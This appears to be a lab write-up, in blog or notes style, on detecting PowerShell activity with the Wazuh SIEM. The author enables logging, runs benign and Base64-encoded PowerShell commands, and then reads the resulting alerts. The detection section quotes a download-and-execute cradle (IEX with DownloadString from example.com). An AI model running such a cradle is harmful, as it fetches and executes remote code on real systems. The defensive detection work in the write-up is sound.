# Introduction
Wazuh is an open-source security monitoring platform designed for threat detection, integrity monitoring, incident response, and compliance. in this exercise we will do a simple threat detection with Wazuh.

We will some run some Powershell commands in a windows agents and then see if we can detect it in the Wazuh Manager.

# Environment
windows 10

Wazuh installed in Ubuntu.

# Executing some Powershell commands to trigger alerts.

Create the base path if missing

New-Item -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell" -Force | Out-Null.



Enable Module Logging

New-Item -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Force | Out-Null
New-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging" `
    -Name "EnableModuleLogging" -Value 1 -PropertyType DWord -Force | Out-Null





Get-Process and save the process list (objects) into the variable $proc.

$proc = Get-Process

store PowerShell command (list processes and write to file) into the variable $cmd

$cmd = 'Get-Process | Out-File C:\Users\Public\wazuh_trigger_procs.txt'



write the contents of $proc to processes.txt again.

$proc | Out-File C:\Users\Public\processes.txt

place the command string into $command (this will be encoded next)

$command = "Get-Process | Out-File C:\Users\Public\proclist.txt"

convert the string in $command into a Unicode byte array, stored in $bytes

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

Base64-encode that byte array and store result in $encoded.

$encoded = [Convert]::ToBase64String($bytes)

start PowerShell directly (no profile) and run the Base64-encoded command, which executes Get-Process | Out-File C:\Users\Public\proclist.txt.

powershell.exe -NoProfile -EncodedCommand $encoded



# Detection
When we go the Wazuh dashboard and look at the events we will be able to see alerts related to the all the commands we executed in the windows machine.



We can click on the first one at the top. We will see the 



When we click on the event, we can see a detailed information related to suspicious PowerShell activity. Some details we can see are and important when investigating is agent.ip & agent.name: Identifies the monitored endpoint that generated the alert. The machine (Windows10) with the local IP 192.168.x.x is the source of the event. 
data.win.eventdata.image: Displays the executable responsible for the event. in this case, powershell.exe. It indicates that PowerShell was executed from the system directory, which is typical, but important for monitoring command-line activity.
data.win.eventdata.targetFileName: Shows the path of a temporary file created during script execution:
C:\Users\PCI1\AppData\Local\Temp\_PSscriptPolicyTest_dxlxny1g.tmp.ps1.
This suggests a temporary PowerShell script file was created, often a sign of encoded or dynamically generated code.
 data.win.eventdata.user: Indicates the Windows user (DESKTOP-KEUMS0K\PCI1) who ran the command. Helps correlate activity to a specific account.
data.win.system.channel: Specifies the source of the event log, in this case, Microsoft-Windows-Sysmon/Operational, meaning the detection came through Sysmon monitoring integrated with Wazuh.
data.win.system.message: Logs the complete action “File created,” confirming that the PowerShell process wrote to the temp directory, an action correlated with suspicious or automated script behavior







If we go to the next event, we and click on it we can see what has happened. For example, from the screenshots we have below we can see.
The event originates from the Microsoft-Windows-PowerShell/Operational log channel with Event ID 4104, indicating a PowerShell script block was executed and logged.
The scriptBlockText shows the PowerShell command executed:
IEX (New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')
This command downloads and executes a remote PowerShell script directly in memory, which is a common post-exploitation or malware technique.
The alert's severity level is 5, which is high, reflecting the potential risk of remote code execution.
The ScriptBlock ID is a unique identifier to track this particular script block execution.
Other metadata includes the computer name (DESKTOP-KEUM5QK), agent information, and event record details for correlation and investigation.





## Conclusion

This experiment demonstrates end-to-end visibility into PowerShell activity using Wazuh:

simulated real PowerShell misuse, such as encoded commands and temp file creation.  

showcased Wazuh’s analytical power in detecting, decoding, and classifying these behaviors.

By combining PowerShell logging (Module + Script Block) with Wazuh’s SIEM engine, even subtle or obfuscated PowerShell attacks become fully visible for threat hunting and incident response.

